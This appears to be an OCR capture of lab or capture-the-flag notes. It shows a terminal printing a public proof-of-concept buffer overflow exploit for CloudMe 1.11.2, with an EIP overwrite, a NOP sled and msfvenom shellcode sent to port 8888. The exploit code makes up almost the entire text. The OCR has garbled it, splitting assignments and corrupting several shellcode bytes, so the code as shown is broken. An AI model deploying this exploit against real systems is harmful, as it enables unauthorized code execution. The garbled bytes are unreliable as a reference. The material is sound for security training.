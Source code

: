 ![](Maszyny/Windows/Buff/Pasted%20image%2020210824143350.png)

-(kali kali)-[/.../UACME-3.5.6/Source/Akagi/bin]
-$ cat 48389.py
# Exploit Title: CloudMe 1.11.2 Buffer Overflow (POC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86
#Instructions:
# Start the CloudMe service and run the script.
import socket
target
= "127.0.0.1"
padding1
EIP
NOPS
b"\x90" * 1052
= b"\xB5\x42\xA8\x68" # 0x68A842B5 → PUSH ESP, RET
= b"\x90" * 30
=
#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\xØD' -f python
payload b"\xba\xad\x1e\x7c\x62\xdb\xcf\xd9\x74\x24\x64\x5e\x33"
payload += b"\xc9\xb1\x31\x83\x66\x04\x31\x56\x0f\x03\x56\xa2\xfc"
payload += b"\x89\xfe\x54\x82\x72\xff\xa4\xe3\xfb\x1a\x95\x23\x9f"
payload += b"\x6F\x85\x93\xeb\x22\x29\x5F\xb9\xD6\xba\x20\x16\xd8"
payload += b"\x0b\x9b\x40\xd7\x80\xb0\xb1\x76\x0e\xcb\xe5\x58\x2f"
payload += b"\x04\x68\x99\x68\x79\xf1\xc8\x21\xf5\xa4\xfc\x46\x43"
payload += b"\x75\x76\x14\x45\xfd\x6b\xec\x64\x20\x32\x67\x3f\xee"
payload += b"\xbc\xa4\x4b\xa7\xa6\xa9\x76\x71\x5c\x19\x@c\x80\x64"
payload += b"\x50\xed\x2F\xf9\x5d\x1c\x31\x3d\x59\xff\x44\x37\x9a"
payload += b"\x82\x5e\x8c\xe1\x58\xea\x17\x41\x2a\x4c\xfc\x70\xff"
payload += b"\x0b\x77\x7e\x64\x58\xdf\x62\x4b\x8c\x65\x9e\xc0\x33"
payload += b"\xbc\x17\x92\x17\x18\x70\x40\x39\x39\xd8\x27\x46\x59"
payload += b"\x83\x98\xe2\x11\x29\xcc\x9e\x75\x27\x13\x20\x06\x05"
payload += b"\x13\x2E\x09\x39\x7c\x1f\x82\xD6\xfb\xa0\x41\x93\xf4"
payload += b"\xea\xc8\x65\x9c\x62\x98\x84\xc0\x64\x77\xca\xfc\xc6"
payload += b"\x72\xb2\xfa\xd7\x66\xb7\x47\x50\xea\xC5\xd8\x35\x@c"
payload += b"\x7a\xd8\x1f\x6F\x1d\x4a\xc3\x5e\xb8\xea\x66\x9f"
overrun
= b"C" * (1500 - len(padding1 + NOPS + EIP + payload))
buf
padding1 + EIP + NOPS + payload + overrun
try:
S=socket.socket (socket.AF_INET, socket. SOCK_STREAM)
s.connect((target,8888))
s.send(buf)
